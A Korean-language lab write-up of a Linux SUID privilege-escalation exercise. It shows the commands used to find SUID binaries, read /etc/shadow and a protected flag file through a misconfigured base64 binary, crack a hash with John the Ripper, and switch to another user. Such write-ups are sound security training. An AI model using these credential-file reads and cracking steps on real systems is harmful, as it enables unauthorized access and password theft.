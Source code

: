 # Linux Privilege Escalation: SUID
> SUID가 설정된 바이너리 중 `base64` 명령어를 활용해 `/etc/shadow` 파일을 읽고 사용자 계정 정보를 탈취한 후, 계정 크랙과 전환을 통해 플래그를 획득하는 과정을 수행했습니다.

---

## 1. 실습 개요
- **타겟 머신 IP**: 10.10.235.109
- **공격 머신**: Kali Linux
- **초기 사용자 계정**: `karen`
- **권한 상승 방법**: `base64` SUID 바이너리 악용
- **실습 일자**: 2025-04-19

---

## 2. 실습 과정

### 2.1 SSH 접속

```bash
ssh karen@10.10.235.109
```
- 타겟 머신에 karen 계정으로 SSH 접속하여 권한 상승을 위한 탐색을 시작하였다.

![SSH 접속 및 로그인](./screenshots/ssh_connect.png)

---

### 2.2 SUID 바이너리 검색
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
- 시스템 전체에서 SUID 권한이 부여된 파일 목록을 검색하였다.
- `/usr/bin/base64` 바이너리에 SUID가 설정되어 있는 것을 발견하였다.

![SUID 파일 검색](./screenshots/suid_search.png)

---
### 2.3 GTFOBins 참고

- https://gtfobins.github.io/ 사이트를 참고하여 base64 명령어가 SUID로 설정되어 있을 경우 파일을 인코딩 방식으로 우회 접근이 가능하다는 점을 확인하였다.

---
### 2.4 base64 SUID를 이용한 /etc/shadow 읽기

- 일반적으로 접근할 수 없는 `/etc/shadow` 파일을 base64 명령어로 인코딩 후 디코딩하여 내용을 출력하였다.

```bash
LFILE=/etc/shadow
/usr/bin/base64 "$LFILE" | base64 --decode
```
- 사용자 계정들의 해시된 패스워드를 확보하였다.

![shadow 파일 탈취](./screenshots/base64_suid.png)

---

### 2.5 hash.txt로 저장 및 john으로 크랙
- 탈취한 해시를 `hash.txt` 파일로 저장하고, john the ripper를 사용하여 크랙하였다.

```bash
john --show hash.txt
```
- `user2`의 비밀번호 `Password1`을 성공적으로 크랙하였다.

![존으로 크랙](./screenshots/john_crack.png)

---

### 2.6 su 명령어로 user2 계정 전환
```bash
su user2
# Password1 입력
```
- 크랙한 비밀번호를 이용해 `user2` 계정으로 전환하였다.

---

### 2.7 플래그 파일 찾기 및 base64로 읽기

```bash
find / -name flag3.txt 2>/dev/null
cat /home/ubuntu/flag3.txt  # 권한 없음

LFILE=/home/ubuntu/flag3.txt
/usr/bin/base64 "$LFILE" | base64 --decode
```
- 플래그 파일의 위치를 찾았으나 직접 `cat` 명령으로 읽을 수는 없었다.
- 다시 SUID base64를 활용하여 파일 내용을 인코딩 후 디코딩함으로써 우회적으로 내용을 읽어내어 플래그 획득에 성공하였다.

![flag3.txt 확보](./screenshots/flag_secure.png)

---

## 느낀 점
실습을 통해 **SUID 바이너리가 가지는 보안적 위험성**과, **평범해 보이는 명령어도 공격에 활용될 수 있음을 명확히 체감**할 수 있었다. 특히 `nano`, `less`와 같은 텍스트 편집 도구에 SUID가 설정되어 있다면, **`/etc/shadow` 파일을 `unshadow` 명령어로 복원하고 사전 기반 크랙을 통해 루트 계정까지 탈취할 수 있는** 매우 위험한 공격 시나리오도 고려할 수 있었을 것이다.

